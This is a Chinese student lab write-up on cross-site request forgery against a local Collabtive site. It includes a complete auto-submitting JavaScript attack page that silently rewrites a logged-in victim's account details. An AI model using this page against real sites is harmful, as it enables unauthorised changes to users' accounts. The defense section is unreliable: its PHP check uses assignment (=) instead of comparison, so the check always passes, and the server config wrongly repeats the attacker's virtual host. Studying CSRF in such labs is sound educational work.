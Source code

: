 ```yaml
---
layout: post
title: 跨站请求伪造攻击
---
```


_Dong 2015210938_

_2016.04.23_

## CSRF:跨站请求伪造攻击

### 攻击简介
在网络环境中，用户使用单个浏览器浏览可信任网页，攻击者利用恶意网站以受害用户的身份向可信任网站发起恶意请求。

### 实验原理
在用户使用账号密码登陆到可信任站点后，受信任站点会在web浏览器存储cookie，并且在接下来的操作中不需要进行身份验证。这样恶意网站就可以使用脚本通过浏览器提交恶意请求到受信任站点，因为之前已经进行过了身份验证，受信任站点接受恶意请求操作。

### 实验步骤

#### 配置网站
首先启动apache2和mysql_safe，让本地服务器启动起来。

	sudo service apache2 start
	sudo mysqld_safe

并且配置DNS域名解析，将模拟域名都解析到本地，添加一下内容到`/etc/hosts`中

	127.0.0.1	www.heyheyattacker.com
	127.0.0.1	www.heyheynormal.com

并且在`/etc/apache2/conf.d/lab1.conf`和`/etc/apache2/conf.d/lab2.conf`中分别配置网站

	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


	<VirtualHost *:80>
		ServerName http://www.heyheyattacker.com
		DocumentRoot /var/www/CSRF/Attacker/
	</VirtualHost>


#### **攻击**
在攻击者的服务器里制作个攻击网页。其中包含提交恶意申请的javascript脚本。
将以下内容的作为文件`index.html`保存在`/var/www/CSRF/Attacker`中：

	<html><body><h1>
	This page forges an HTTP POST request.
	</h1>
	<script>
	function post(url,fields)
	{
	//create a <formelement.
	var p = document.createElement('form');
	//construct the form
	p.action = url;
	p.innerHTML = fields;
	p.target = '_self';
	p.method = 'post';
	//append the form to the current page.
	document.body.appendChild(p);
	//submit the form
	p.submit();
	}
	function csrf_hack()
	{
	var fields;
	// The following are form entries that need to be filled out
	// by attackers. The entries are made hidden, so the victim
	// won't be able to see them.
	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);
	}
	// invoke csrf_hack() after the page is loaded.
	window.onload = function() { csrf_hack(); }
	</script>
	</body></html>

其中`csrf_hack()`函数中的：

	fields += "<input type='hidden' name='name' value='peter'>"; //修改用户名
	fields += "<input type='hidden' name='userfile' value=''>";  
	fields += "<input type='hidden' name='company' value='seed'>";  //修改公司名
	post('http://www.heyheynormal.com/manageuser.php?action=edit',fields);

即为提交恶意请求的关键。

实验结果：在用户登录之后，访问`www.heyheyattacker.com`。用户的账号信息被更改，用户名被更改为`peter`，公司改为`seed`。

在打开`www.heyheyattacker.com`之后，用户的信息便被修改。

#### **防御**
可以通过添加伪随机数的方法来防御跨站攻击。

实验中通过将document.cookie提交给要访问的可信任站点，并在之后的操作中可信任站点都对这个值进行验证，如果攻击者不能窃取可信任网站的cookie则在提交恶意请求时，不能通过可信任站点的有效验证，则攻击失效。

在可信任网页`/var/www/CSRF/Collabtive/templates/standard/edituserform.tpl`提交POST时提交一个隐藏的input，值为`document.cookie`。

而后可信任站点在接受到请求后在`manageuser.php`中对值进行验证

	...
	$sid = getArrayVal($_POST, "sid");
	...
	if($_COOKIE["PHPSESSID"]=$sid)
	...

实验结果：再次访问`www.heyheyattacker.com`并不能对用户信息进行更改。

### 实验思考
CSRF攻击利用的是，用户在进行登录验证之后，和可信任站点交互不会再进行相互认证这个漏洞。因此只要想法在用户登录之后能有信息似的用户和可信任站点之间能够相互验证，并且在攻击者不能获得这份信息的前提下，就能有效避免这类攻击，就像这里的cookie信息。


----------
实验来自`实验楼`

